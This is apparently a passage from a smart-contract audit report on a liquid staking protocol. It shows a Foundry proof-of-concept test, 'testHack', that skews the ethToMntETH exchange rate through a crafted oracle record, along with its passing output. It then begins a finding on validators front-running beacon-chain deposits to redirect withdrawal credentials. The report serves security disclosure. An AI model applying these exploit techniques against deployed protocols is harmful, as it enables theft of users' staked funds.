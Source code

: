 ```solidity

        vm.roll(block.number + 1000);
        vm.prank(reporter);
        ds.quorumManager.receiveRecord(
            OracleRecord({
                updateStartBlock: DEPLOY_BLOCK_NUMBER + 1,
                updateEndBlock: DEPLOY_BLOCK_NUMBER + 601,
                currentNumValidatorsWithBalance: 5,
                cumulativeNumValidatorsFullyWithdrawn: 5,
                windowWithdrawnPrincipalAmount: 160 ether,
                windowWithdrawnRewardAmount: 0.005 ether,
                currentTotalValidatorBalance: 160 ether,
                cumulativeProcessedDepositAmount: 320 ether
            })
        );
        // Should be >50% higher!
        console.log("Skewed ethToMntETH rate is '%s'", ds.staking.ethToMntETH(1 ether));

        ds.aggregator.processNextOracleRecords(10);

        console.log("Recovered ethToMntETH rate is '%s'", ds.staking.ethToMntETH(1 ether));
    }
}
```

Output:

```
Running 1 test for test/Integration.t.sol:BasicTest
[PASS] testHack() (gas: 1747223)
Logs:
  Current ethToMntETH rate is '1000000000000000000'
  Skewed ethToMntETH rate is '1666666666666666666'
  Recovered ethToMntETH rate is '999988750126561076'

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.53ms
```

# Malicious validator can steal user funds by front-running withdrawal credentials

## Description

PATH: `Staking.sol:initiateValidatorsWithDeposits` L396-457

By default in this protocol, the ones who have `INITIATOR_SERVICE_ROLE` and `STAKING_MANAGER_ROLE` manage the beacon chain validator creation process. The validator would sign the deposit data with the withdrawal credentials set to a protocol-controlled contract so that withdrawals would be received by the protocol (`withdrawalWallet_`).

In case the validator is malicious, they can monitor the mempool and front-run the `deposit` transaction of the beacon chain for its pubKey and deposit 1 ether for different withdrawal credentials. Because of the beacon chain implementation and ETH specs ( link ), in `ProcessDeposit`, if the `pubKey` is already registered, it increases its balance, not touching the `withdrawal_credentials`. 
